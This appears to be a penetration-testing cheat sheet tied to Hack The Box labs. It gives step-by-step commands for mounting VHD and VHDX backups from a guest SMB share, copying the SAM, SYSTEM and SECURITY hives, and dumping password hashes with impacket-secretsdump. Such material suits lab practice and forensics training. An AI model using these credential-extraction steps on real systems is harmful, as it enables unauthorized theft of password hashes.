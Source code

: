 
[HTB machine conceal](https://www.hackthebox.com/machines/conceal)
[HTB Bastion](https://www.hackthebox.com/machines/bastion)

## Overview

Virtual Hard Disk(VHD) and Virtual Hard Disk X (VHDX) files are used by windows for virtual machines, backups and system snapshots. These files can contain SAM and SYSTEM registry hives, which stores password hashes and other sensitive information.

Mounting VHD/VHDX files allows you to extract files and extraxt password hashes using tools like `impacket-secretsdump`

---

## Mounting VHD Files.

### Step 1: Install Necessary Tools

```bash
apt install libguestfs-tools cifs-utils
```

</br>

###  Step 2: Mount the Network Share

```bash
mount -t cifs //192.168.29.18/backup -o user=guest,password= /mnt/backup
```

</br>

###  Step 3: Mount the VHD file

```bash
guestmount --add /mnt/backup/vhdfile.vhd --inspector --ro /mnt/vhd -v
```

Alternatively, you can mount a specific VHD files directly:

```bash
guestmount -a /mnt/d1/system.vhd -i -r /mnt/d2 -v
```

</br>

### Step 4: Extract SAM and SYSTEM Files

```bash
cp /mnt/vhd/Windows/System32/config/SAM /tmp/
```

```bash
cp /mnt/vhd/Windows/System32/config/SYSTEM /tmp/

```

</br>

### Step 5: Extract Password Hashes

```bash
impacket-secretsdump -sam /tmp/SAM -system /tmp/SYSTEM local
```

---

##  Mounting VHDX Files

### Step 1: Install Necessary Tools

```bash
apt install libguestfs-tools nautilus qemu-utils nbd-client
```

</br>

### Step 2: Load NBD Module

check if   `nbd` module is loaded 

```bash
lsmod | grep nbd
```

if not loaded, load it manually:

```bash
modprobe nbd
```

if needed unload and reload the module

```bash
rmmod nbd
```

```bash
modprobe nbd
```

</br>

### Step 3: Check Available NBD Devices

```bash
ls -l /dev/nbd*
```

</br>

### Step 4: Identify the Connected Drive

```bash
lsblk
```

```bash
blkid
```

</br>


### Step 5: Attach the VHDX file to NBD

```bash
qemu-nbd -c /dev/nbd0 /tmp/<name>.vhdx
```

</br>

### Step 6: Read Partition table

```bash
partprobe
```

```bash
partprobe /dev/nbd0
```

</br>


### Step 7: Confirm Partition Mapping

```bash
ls -l /dev/nbd*
```

</br>


### Step 8: Mount the Partition

```bash
mount -t ntfs /dev/nbd0p2 /mnt/d1
```

</br>

### Step 9: Extract SAM, SYSTEM and SECURITY Files


```bash
cp /mnt/d1/Windows/System32/config/SAM /tmp
```

```bash
cp /mnt/d1/Windows/System32/config/SYSTEM /tmp
```

```bash
cp /mnt/d1/Windows/System32/config/SECURITY /tmp
```

</br>

### Step 10: Extract Password Hashes


```bash
impacket-secretsdump -sam /tmp/SAM -system /tmp/SYSTEM -security /tmp/SECURITY local
```